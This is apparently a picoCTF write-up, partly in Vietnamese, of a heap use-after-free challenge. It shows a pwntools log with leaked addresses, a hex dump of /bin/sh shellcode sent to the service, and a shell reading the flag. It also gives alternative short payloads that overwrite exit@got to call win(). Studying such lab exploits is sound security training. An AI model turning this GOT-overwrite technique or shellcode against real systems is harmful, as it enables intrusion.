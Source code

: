 
## Exploit
[Source exploit](ex.py)

```bash
...
...
[DEBUG] Received 0xa8 bytes:
    'Oops! a new developer copy pasted and printed an address as a decimal...\n'
    '162582536\n'
    'you will write on first after it was freed... an overflow will not be very useful...\n'
win     : 0x8048966
exit_got: 0x804d02c
leak    : 0x9b0d008
...
...
[DEBUG] /usr/bin/x86_64-linux-gnu-as -32 -o /tmp/pwn-asm-2jsCcy/step2 /tmp/pwn-asm-2jsCcy/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-2jsCcy/step3 /tmp/pwn-asm-2jsCcy/step4
[DEBUG] Sent 0x42 bytes:
    00000000  20 d0 04 08  10 d0 b0 09  eb 0b 90 90  90 90 90 90  │ ···│····│····│····│
    00000010  90 90 90 90  90 6a 68 68  2f 2f 2f 73  68 2f 62 69  │····│·jhh│///s│h/bi│
    00000020  6e 89 e3 68  01 01 01 01  81 34 24 72  69 01 01 31  │n··h│····│·4$r│i··1│
    00000030  c9 51 6a 04  59 01 e1 51  89 e1 31 d2  6a 0b 58 cd  │·Qj·│Y··Q│··1·│j·X·│
    00000040  80 0a                                               │··│
    00000042
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x16 bytes:
    'flag.txt  vuln\tvuln.c\n'
flag.txt  vuln    vuln.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[DEBUG] Received 0x1d bytes:
    'picoCTF{what5_Aft3r_e274134c}'
picoCTF{what5_Aft3r_e274134c}$  

```


## Bonus
Vì bài này chỉ cần gọi hàm win() là đủ. Thay vì gọi shellcode để lấy shell,
ta có nhiều cách khác để khắc phụ vụ 4 bytes bị corrupt, chẳng hạn như payload sau:
```
exit@got - 12
leak + 8
asm("push 0x08048966")
asm("call [esp]")
```
Trong đó **0x08048966** là địa chỉ hàm win(). Hoặc:
```
exit@got - 12
leak + 8
asm("mov edi, 0x08048966")
asm("call edi")
```
Chỉ cần đoạn assembly <= 8 bytes thì sẽ không bị corrupt. Cần chú ý là shellcode không được chứa *0x0a* vì nó là ký tự kết thúc cho hàm `gets()` và payload sẽ không được inject hết vào heap.
